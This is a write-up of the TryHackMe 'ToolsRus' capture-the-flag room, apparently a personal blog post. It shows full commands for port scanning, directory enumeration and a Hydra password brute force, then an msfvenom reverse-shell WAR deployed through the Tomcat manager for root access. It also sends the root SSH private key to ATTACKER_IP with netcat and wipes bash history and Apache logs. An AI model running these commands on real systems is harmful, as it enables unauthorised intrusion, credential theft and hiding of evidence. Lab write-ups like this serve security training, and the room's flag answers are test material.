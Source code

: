 ```yaml
---
layout: post
title: ToolsRus Writeup
categories:
- CTF Writeup
tags:
- writeup
- ctf
- cybersecurity
- tryhackme
date: 2023-07-12 04:23 +0530
---
```


## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance
Time for some quick port scans and recon (god bless the creators of `rustscan`):
```shell-session
$ rustscan -b 4500 -a TARGET_IP -r 1-65535 --ulimit 5000 -t 2000 -- -oN rustscan_port_scan.txt 
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1234/tcp open  hotline syn-ack
8009/tcp open  ajp13   syn-ack


$ rustscan -b 4500 -a TARGET_IP -p 22,80,1234,8009 --ulimit 5000 -t 2000 -- -sV -oN rustscan_service_scan.txt
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
1234/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Some directory enumeration:
```shell-session
$ gobuster dir -t 64 -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gobuster_common.txt 
$ cat gobuster_common.txt       
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/guidelines           (Status: 301) [Size: 319] [--> http://TARGET_IP/guidelines/]
/index.html           (Status: 200) [Size: 168]
/protected            (Status: 401) [Size: 460]
/server-status        (Status: 403) [Size: 301]
```

 > What directory can you find, that begins with a "g"?
 > 
 > Answer: `guidelines`
 
Visiting the `/guidelines/` directory, we only see a text saying: `Hey bob, did you update that TomCat server?`. 

> Whose name can you find from this directory?
> 
> Answer: `bob`


Moreover, requesting the `protected` directory gives us an authentication popup...
> What directory has basic authentication?
> 
> Answer: `protected`

Let's try to brute force it using hydra :)
```shell-session
$ hydra -l bob -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt -s 80 -f TARGET_IP http-get /protected
...
...
[80][http-get] host: TARGET_IP   login: bob   password: bubbles
```

> What is bob's password to the protected part of the website?
> 
> Answer: `bubbles`

When we log into the `protected` page, we're greeted with the following page:
![](/assets/img/writeup_assets/toolsrus/protected_page_moved.png)

As we found out from the port scans earlier, there's a _Apache Tomcat server_ running on port **1234**. Let's try and log into the portal there by requesting: `http://TARGET_IP:1234/manager/`. This presents us with a familiar authentication service. If we use the credentials: `bob:bubbles`, we get access to the server panel!

> What other port that serves a webs service is open on the machine?
> 
> Answer: `1234`



The version number for the tomcat server can be found at the bottom of the `manager` page...
> Going to the service running on that port, what is the name and version of the software?
> (Answer format: Full_name_of_service/Version)
> 
> Answer: `Apache Tomcat/7.0.88`

There's a total of 5 documentation files mentioned on the tomcat manager page, so no need to use `nikto` yet (also, it's a bit confusing to use ngl):
> How many documentation files did ~~Nikto~~ you identify?
> 
> Answer: `5`


> What is the server version (run the scan against port 80)?
> 
> Answer: `Apache/2.4.18`


> What version of Apache-Coyote is this service using?
> 
> Answer: `1.1`


Armed with all this info on version numbers and stuff, let's see what exploits we can make use of to get access to the target machine:

## Gaining Access
Now... If we do as the room instructs, this section will usually be _2_ parts, but since we can deploy a file on the `manager` page, we can easily get a reverse shell, (which, moving further, you'll see is a root shell!). Let's begin with generating a suitable payload:
```shell-session
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f war > reverse.war
```

We're generating a `WAR` file as a payload since that's what we can upload from the `manager` page: 
![](/assets/img/writeup_assets/toolsrus/war_file_upload.png)

After the file is deployed, start a listener on the specified port on your machine (4444 in this case), like so:
```shell-session
$ nc -nvlp 4444
```

Now, when we request the URL: `http://TARGET_IP:1234/reverse/`, we'll receive a connection on our netcat listener, and we can move onto stabilizing the shell:
```shell-session
$ nc -nvlp 4444          
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 44662

python -c "import pty; pty.spawn('/bin/bash')"
root@ip-TARGET_IP:/# ^Z
zsh: suspended  nc -nvlp 4444

$ stty raw -echo && fg
[1]  + continued  nc -nvlp 4444

export TERM=xterm-256-color
root@ip-TARGET_IP:/# whoami
root

root@ip-TARGET_IP:/# ls /root
flag.txt  snap

root@ip-TARGET_IP:/# cat /root/flag.txt 
`ff1fc4a81affcc7688cf89ae7dc6e0e1`
```

***!!BONUS STEP!!***

Now, even if we have a rooted reverse shell, it's still a hassle to go through uploading the reverse shell and stabilizing it again and again if we plan to exploit this machine later on, so let's get the ssh private key for persistence, as well as clean up the `/reverse.war` file we uploaded:
```shell-session

## On our machine:
$ nc -nvlp 8888 > toysrus_id_rsa

## On target machine;
root@ip-TARGET_IP:/# ssh-keygen
## Empty passphrases...
root@ip-TARGET_IP:/# nc ATTACKER_IP 8888 -w 3 < /root/.ssh/id_rsa
```

Nice! Now we have a persistent access by `ssh`, let's clean up some stuff before we're done...
```shell-session
root@ip-TARGET_IP:/# echo "" > /root/.bash_history 
root@ip-TARGET_IP:/# rm /usr/local/tomcat7/webapps/reverse.war 
root@ip-TARGET_IP:/# rm -rf /usr/local/tomcat7/webapps/reverse/
root@ip-TARGET_IP:/# rm -rf /usr/local/tomcat7/work/Catalina/localhost/reverse
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/access.log 
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/error.log 
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/other_vhosts_access.log 

## Just for good measure...
root@ip-TARGET_IP:/# echo "" > /root/.bash_history
```

And we're done!

> What text is in the file `/root/flag.txt`?
> 
> Answer:  `ff1fc4a81affcc7688cf89ae7dc6e0e1`

## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Room: [ToolsRus](https://tryhackme.com/room/toolsrus)
